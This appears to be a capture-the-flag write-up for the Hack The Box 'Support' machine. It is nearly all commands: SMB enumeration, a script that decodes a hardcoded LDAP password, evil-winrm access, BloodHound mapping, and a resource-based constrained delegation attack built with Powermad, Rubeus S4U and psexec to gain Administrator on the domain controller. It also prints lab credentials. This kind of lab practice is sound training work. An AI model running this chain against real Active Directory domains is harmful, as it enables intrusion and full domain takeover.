 ![image](https://github.com/regarmulia/HTB/assets/33616880/e4ddfec3-a99b-4b8a-9b9b-590cd649863a)

```
nmap -sS -sC -sV -T5 -Pn 10.10.11.174
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c513fb68-50d1-41b4-8934-27824a4ed58e)

```
smbclient -L \\\\10.10.11.174\\
smbclient \\\\10.10.11.174\\support-tools
```
![image](https://github.com/regarmulia/HTB/assets/33616880/71fa0c96-fe56-4321-851b-d46f6b8f8795)

```
unzip UserInfo.exe.zip
cat UserInfo.exe.config
```
![image](https://github.com/regarmulia/HTB/assets/33616880/98094d02-a256-46d6-9bf1-f38c289f4c73)


```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-arm64
sudo ./ILSpy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c25352b4-a0c5-4d1c-bd87-6b71045eee0f)

```
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
        res += chr(e ^ k ^ key2)

print(res)
```
```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2b3ae44c-1a69-4e82-92c3-0ffaac79088c)


```
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
tar -xf ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
./ApacheDirectoryStudio
Ironside47pleasure40Watchful
```
![image](https://github.com/regarmulia/HTB/assets/33616880/875c3cc4-807f-429a-8bb9-8b8e08ac724e)


```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f0f57e9e-b8fc-4d4d-b8ac-3a129655c56f)


```
Get-ADDomain
echo '10.10.11.174 dc.support.htb' | sudo tee -a /etc/hosts
whoami /groups
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1f8391b0-f0b9-4bac-ac66-73d102f2e7df)


```
sudo neo4j start
/opt/BloodHound/BloodHound-linux-x64 ./BloodHound --no-sandbox

upload SharpHound.exe
./SharpHound.exe
download 20240514001541_BloodHound.zip
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a94dd19-bd0e-46f4-8099-c5e90c3cb25b)

![image](https://github.com/regarmulia/HTB/assets/33616880/91ef72f1-2187-471b-9c81-94bebd11c9d6)

![image](https://github.com/regarmulia/HTB/assets/33616880/e6e064fc-121f-4fe9-b1c8-2202bedd5815)


```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3d6b600f-4598-4175-bd67-5112eda8a285)


```
git clone https://github.com/Kevin-Robertson/Powermad.git
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-ADComputer -identity FAKE-COMP01
```
![image](https://github.com/regarmulia/HTB/assets/33616880/df2e4c56-b5f0-4166-8893-5f314a1ddd96)


```
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ef2757a0-de07-432e-9a48-9a27e403cc85)


```
test
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
58A478135A93AC3BF058A5EA0E8FDB71
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
https://www.browserling.com/tools/remove-all-whitespace
base64 -d ticket.kirbi.b64 > ticket.kirbi
locate ticketConverter.py
./ticketConverter.py ticket.kirbi ticket.ccache
locate psexec.py
KRB5CCNAME=ticket.ccache ./psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c7d86351-2afa-4ba9-a89f-33e93dbd0ad5)

![image](https://github.com/regarmulia/HTB/assets/33616880/ae871fd3-7dd0-4315-aac9-3859e1180ef7)
